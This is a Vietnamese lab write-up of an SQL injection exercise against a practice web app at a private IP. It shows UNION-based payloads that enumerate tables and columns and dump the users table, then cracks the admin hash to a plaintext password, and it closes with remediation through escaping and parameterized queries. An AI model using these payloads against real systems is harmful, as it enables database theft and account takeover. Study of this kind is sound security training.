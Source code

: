 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Mục lục:
1. [Cách làm](#1)
2. [Lỗi sai](#2)
3. [Cách khắc phục](#3)

## Cách làm:<a name="1"></a>
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

    | No. | Table                                          |
    | --- | ---------------------------------------------- |
    | 1   | picture: ruby                                  |
    | 2   | picture: cthulhu                               |
    | 3   | picture: character_sets                        |
    | 4   | picture: collations                            |
    | 5   | picture: collation_character_set_applicability |
    | 6   | picture: columns                               |
    | 7   | picture: column_privileges                     |
    | 8   | picture: engines                               |
    | 9   | picture: events                                |
    | 10  | picture: files                                 |
    | 11  | picture: global_status                         |
    | 12  | picture: global_variables                      |
    | 13  | picture: key_column_usage                      |
    | 14  | picture: partitions                            |
    | 15  | picture: plugins                               |
    | 16  | picture: processlist                           |
    | 17  | picture: profiling                             |
    | 18  | picture: referential_constraints               |
    | 19  | picture: routines                              |
    | 20  | picture: schemata                              |
    | 21  | picture: schema_privileges                     |
    | 22  | picture: session_status                        |
    | 23  | picture: session_variables                     |
    | 24  | picture: statistics                            |
    | 25  | picture: tables                                |
    | 26  | picture: table_constraints                     |
    | 27  | picture: table_privileges                      |
    | 28  | picture: triggers                              |
    | 29  | picture: user_privileges                       |
    | 30  | picture: views                                 |
    | 31  | picture: categories                            |
    | 32  | picture: pictures                              |
    | 33  | picture: users                                 |

- Nhưng ở đây, ta sẽ quan tâm tới table users. Đây sẽ là nơi chứa thông tin của các user trong database
- Đầu tiên, ta cần biết số lượng cột và tên từng cột trong bảng users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns where table_name='users'
  ```
- Kết quả trả về gồm 3 cột với tên lần lượt là: id, login, password
- Từ đây, ta có thể dễ dàng show ra thông tin toàn bộ users
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,concat(id,0x3a,login,0x3a,password),3,4 from users

  Kết quả trả về: 1:admin:8efe310f9ab3efeae8d410a8e0166eb2
  ```
- Đây là thông tin về admin, giờ chúng ta thử đăng nhập. Nhưng không thành công, có thể suy đoán mật khẩu đã được mã hóa.
- Ta sẽ thử giải nén mật khẩu. Và sau khi thử các cách giải mã: DES, 3DES, AES, SHA, MD5,.. thì password nhận được là P4ssw0rd.
- Đến đây ta đã có thông tin username: admin, password: P4ssw0rd. Và bây giờ ta đã có thể đăng nhập thành công và tùy ý thêm và xóa các bức tranh.

## Lỗi sai:<a name="2"></a>
- Các liên kết trên thanh menu có dang ?id= nên dễ xảy ra lỗi SQL Injection
  ```php
    Các liên kết như:
    test: <a href="cat.php?id=1">test | </a>
    ruxcon: <a href="cat.php?id=2">test | </a>
    20120: <a href="cat.php?id=3">test | </a>
  ```
- Lúc gửi giữ liệu sẽ có dạng:
  ```php
    SELECT title, description, body FROM cat WHERE ID = 1
  ```
- Kẻ tấn công sẽ chèn đoạn query vào url để lấy được thông tin mong muốn
- Ví dụ:
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
    -> SELECT * FROM cat WHERE id=1 UNION SELECT 1,2,3,4 LIMIT 1

    http://192.168.216.129/cat.php?id=1 union select 1,column_name,3,4 from information_schema.columns where table_name='users'
    -> SELECT * FROM cat WHERE id=1 UNION SELECT 1, column_name,3,4 from information_schema.tables where table_name='users' LIMIT 1
  ```
- Tài liệu tham khảo: https://sechow.com/bricks/docs/content-page-1.html

## Cách khắc phục:<a name="3"></a>
- Hầu hết các trường hợp sql injection có thể được ngăn chặn bằng cách sử dụng các truy vấn tham số (còn được gọi là tuyên bố đã chuẩn bị) thay vì ghép chuỗi trong truy vấn.
- Có thể thử mã hóa dữ liệu bởi vì Bất kể ngôn ngữ bạn đang sử dụng là gì, các phương pháp mã hóa bạn sử dụng phải đồng bộ với các nguyên tắc mã hóa Bảo mật của OWASP. Hầu hết các nền tảng phát triển web đều cung cấp các cơ chế để tránh tất cả SQL Injjection.
- Luôn sử dụng các chức năng thoát ký tự cho đầu vào do người dùng cung cấp được cung cấp bởi mỗi hệ thống quản lý cơ sở dữ liệu (DBMS).
  Ví dụ: sử dụng mysql_real_escape_string() trong PHP để tránh các ký tự có thể dẫn đến lệnh SQL ngoài ý muốn
  ```php
    $db_connection = mysqli_connect("localhost", "user", "password", "db");
		$username = mysqli_real_escape_string($db_connection, $_POST['username']);
		$password = mysqli_real_escape_string($db_connection, $_POST['password']);
		$query = "SELECT * FROM users WHERE username = '" . $username. "' AND password = '" . $password . "'"; 
  ```
- Sử dụng câu truy vấn tham số
  ```php
    String id = request.getParameter("id");
    String query = "SELECT * FROM cat WHERE id = ? ";
    PreparedStatement statement = connection.prepareStatement(query);
    statement.setString(1, id);
    ResultSet resultSet = statement.executeQuery();
  ```
- Tài liệu tham khảo: https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection